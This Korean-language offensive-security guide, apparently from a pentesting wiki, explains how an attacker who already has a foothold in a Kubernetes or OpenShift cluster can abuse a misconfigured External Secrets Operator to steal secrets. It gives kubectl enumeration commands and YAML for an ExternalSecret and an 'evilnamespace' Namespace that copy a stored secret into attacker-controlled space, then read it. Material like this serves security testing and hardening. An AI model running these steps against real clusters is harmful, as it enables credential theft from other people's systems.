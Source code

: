 # 외부 시크릿 오퍼레이터

**이 페이지의 원 저자는** [**Fares**](https://www.linkedin.com/in/fares-siala/)

이 페이지는 잘못 구성된 ESO나 ESO를 사용하여 시크릿을 동기화하는 애플리케이션에서 시크릿을 도난할 수 있는 방법에 대한 일부 지침을 제공합니다.

## 면책 조항

아래에 표시된 기술은 특정 상황이 충족될 때에만 작동할 수 있습니다. 예를 들어, 당신이 소유하거나 침입한 네임스페이스에서 시크릿을 동기화할 수 있도록 허용하는 필요 요구 사항에 따라 달라집니다. 스스로 해결해야 합니다.

## 전제 조건

1. 어드민 권한이 있는 쿠버네티스 / 오픈쉬프트 클러스터에서 발판을 마련합니다.
2. 적어도 클러스터 수준의 ExternalSecret에 대한 읽기 액세스 권한
3. ESO가 시크릿을 동기화할 수 있도록 허용하는 필요한 레이블 / 주석 또는 그룹 멤버십이 있는지 확인합니다. 운이 좋다면 정의된 시크릿을 자유롭게 도난할 수 있습니다.

### 기존 ClusterSecretStore에 대한 정보 수집

이 리소스를 읽을 충분한 권한이 있는 사용자가 있다고 가정하고, 먼저 기존 _**ClusterSecretStores**_를 나열하는 것부터 시작합니다.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

클러스터 시크릿 스토어의 이름이 _**mystore**_로 가정해 봅시다. 연결된 externalsecret을 열거하면 됩니다.
```sh
kubectl get externalsecret -A | grep mystore
```
_이 리소스는 네임스페이스 범위로 제한되어 있으므로 이미 어떤 네임스페이스를 찾아야 하는지 알고 있다면 모든 네임스페이스를 확인하려면 -A 옵션을 추가하십시오._

외부 시크릿이 정의된 목록을 가져와야 합니다. _**mysecret**_라는 외부 시크릿 객체를 찾았다고 가정하고 해당 시크릿이 어떤 종류의 비밀을 보유하고 있는지에 대한 추가 정보를 수집하십시오.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### 조각 모으기

여기서 Secret 리소스에 정의된 하나 이상의 비밀 이름을 얻을 수 있습니다. 다음과 유사한 출력을 얻게 됩니다:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
```md
다음은 우리가 가지고 있는 것입니다:

* ClusterSecretStore의 이름
* ExternalSecret의 이름
* 시크릿의 이름

이제 필요한 모든 것을 갖췄으니, ExternalSecret를 생성할 수 있습니다 (그리고 새로운 시크릿을 동기화하기 위해 필요한 전제조건을 준수하는 새로운 Namespace를 패치/생성할 수 있습니다):
```
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
수 분 후에 동기화 조건이 충족되면 네임스페이스 내부에서 누출된 비밀을 볼 수 있어야 합니다.
```sh
kubectl get secret leaked_secret -o yaml
```
## 참고 자료

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
